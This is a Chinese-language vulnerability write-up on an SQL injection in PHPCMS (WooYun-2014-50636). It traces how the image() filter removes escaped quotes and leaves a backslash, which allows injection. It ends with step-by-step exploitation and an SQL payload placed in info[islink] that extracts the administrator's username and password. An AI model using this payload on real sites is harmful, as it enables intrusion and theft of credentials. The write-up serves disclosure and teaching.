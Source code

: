 ## WooYun-2014-50636：PHPCMS全版本通殺SQL注入漏洞

### 漏洞產生

總的來說，是因為你們修復不完善，並沒有理解到這個SQL注入的真正原因，同時補丁後並沒有進行相應的測試因而可繞過補丁繼續注入...

### 漏洞分析
首先看下面的代碼
/phpcms/modules/member/content.php 202行編輯函數

```php
public function edit() {

    $_username = $this->memberinfo['username'];

    if(isset($_POST['dosubmit'])) {

        $catid = $_POST['info']['catid'] = intval($_POST['info']['catid']);

        $siteids = getcache('category_content', 'commons');

        $siteid = $siteids[$catid];

        $CATEGORYS = getcache('category_content_'.$siteid, 'commons');

        $category = $CATEGORYS[$catid];

        if($category['type']==0) {//審核狀態時，點編輯再提交，進入如果分支

            $id = intval($_POST['id']);

            $catid = $_POST['info']['catid'] = intval($_POST['info']['catid']);

            $this->content_db = pc_base::load_model('content_model');

            $modelid = $category['modelid'];

            $this->content_db->set_model($modelid);

            //判斷會員組投稿是否需要審核

            $memberinfo = $this->memberinfo;

            $grouplist = getcache('grouplist');

            $setting = string2array($category['setting']);

            if(!$grouplist[$memberinfo['groupid']]['allowpostverify'] || $setting['workflowid']) {

                $_POST['info']['status'] = 1;

            }

            $info = array();

            foreach($_POST['info'] as $_k=>$_v) {

                if(in_array($_k, $fields)) $_POST['info'][$_k] = new_html_special_chars(trim_script($_v));

            }

            $_POST['linkurl'] = str_replace(array('"','(',')',",",' '),'',new_html_special_chars($_POST['linkurl']));

            //exit(print_r($_POST['info']));

            $this->content_db->edit_content($_POST['info'],$id);

            $forward = $_POST['forward'];

            showmessage(L('update_success'),$forward);

        }

    } else {

        //...

}
```
```sh
229行
```

```php
$this->content_db->edit_content($_POST['info'],$id);
```


其中$ _POST ['info']參數是一個數組，其內容是在線投稿的各項內容，如圖所示

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-1.jpg)

好了，接下來我們看看這些數據都經過了怎樣的處理？
跟上edit_content函數
/phpcms/model/content_model.class.php第234行開始

```php
public function edit_content($data,$id) {

        $model_tablename = $this->model_tablename;

        //前台權限判斷

        if(!defined('IN_ADMIN')) {

            $_username = param::get_cookie('_username');

            $us = $this->get_one(array('id'=>$id,'username'=>$_username));

            if(!$us) return false;

        }

        $this->search_db = pc_base::load_model('search_model');

        require_once CACHE_MODEL_PATH.'content_input.class.php';

        require_once CACHE_MODEL_PATH.'content_update.class.php';

        $content_input = new content_input($this->modelid);

        $inputinfo = $content_input->get($data);//跟進此函數

        // /caches/caches_model/caches_data/content_input.class.php get函數

        $systeminfo = $inputinfo['system'];
```
第248行，我們可以看到$ _POST ['info']數組進入了get函數，繼續跟進
/caches/caches_model/caches_data/content_input.class.php第55行開始

```php
if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);

$MODEL = getcache('model', 'commons');

$this->db->table_name = $this->fields[$field]['issystem'] ? $this->db_pre.$MODEL[$this->modelid]['tablename'] : $this->db_pre.$MODEL[$this->modelid]['tablename'].'_data';

if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage($name.L('the_value_must_not_repeat'));

$func = $this->fields[$field]['formtype'];

if(method_exists($this, $func)) $value = $this->$func($field, $value);//這裡是關鍵，後面慢慢說明

if($this->fields[$field]['issystem']) {

    $info['system'][$field] = $value;

} else {

    $info['model'][$field] = $value;

}
```

我們重點關注這裡是怎麼處理的

```php
if(method_exists($this, $func)) $value = $this->$func($field, $value);
```
為了方便看清楚程序在這裡究竟是怎樣處理的，我們在這行代碼前面加入以下調試代碼，看看都經過了哪些函數的處理...

```php
if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);

$MODEL = getcache('model', 'commons');

$this->db->table_name = $this->fields[$field]['issystem'] ? $this->db_pre.$MODEL[$this->modelid]['tablename'] : $this->db_pre.$MODEL[$this->modelid]['tablename'].'_data';

if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage($name.L('the_value_must_not_repeat'));

$func = $this->fields[$field]['formtype'];

echo "<br>Function :-->".$func."<--<br>";//這是添加的調試代碼

if(method_exists($this, $func)) $value = $this->$func($field, $value);//這裡是關鍵，後面慢慢說明

if($this->fields[$field]['issystem']) {

    $info['system'][$field] = $value;

} else {

    $info['model'][$field] = $value;

}
```

編輯投稿內容，提交

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-2.jpg)


看見了吧，我們提交的內容經過瞭如下幾個函數：catid title keyword copyform textarea editor image islink box
經過分析後，我們重點關注圖像函數，繼續跟上
/caches/caches_model/caches_data/content_input.class.php第102行圖像函數


```php
function image($field, $value) {

    $value = str_replace(array("'",'"','(',')'),'',$value);

    return trim($value);

}
```
過濾了"'"，"（"，"）"，但是呢我們知道當開啟了GPC的時候，單引號會被轉義' - > \'
明白了吧？圖像函數過濾了單引號，假設我們提交的數據恰巧經過了圖像函數，則單引號被過濾了，留下"\"，那麼這個"\"將會吃掉一個單引號，造成注入


### 3. 漏洞Poc

條件：後台開啟投稿，並要求審核
**Step1在會員中心隨便投一篇文章，提交**

**Step2點擊編輯，如下**
![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-3.jpg)
**Step3在縮略圖欄填入http：//**.**.**.**/sql.jpg'，如圖**
![7](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-7.jpg)

提交後，報錯...

![4](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-4.jpg)

### 漏洞最終利用Exp

在縮略圖欄填入：http://**.**.**.**/sql.jpg'

點擊提交，採用Tamper data抓包修改，將info[islink]修改為

```SQL
,title=(select concat(username,password) from v9_admin where userid=1) -- felixk3y
```

點擊確定，再點編輯 即可讀取管理員賬號 密碼，如圖

![5](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-5.jpg)

### 漏洞證明

![6](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-6.jpg)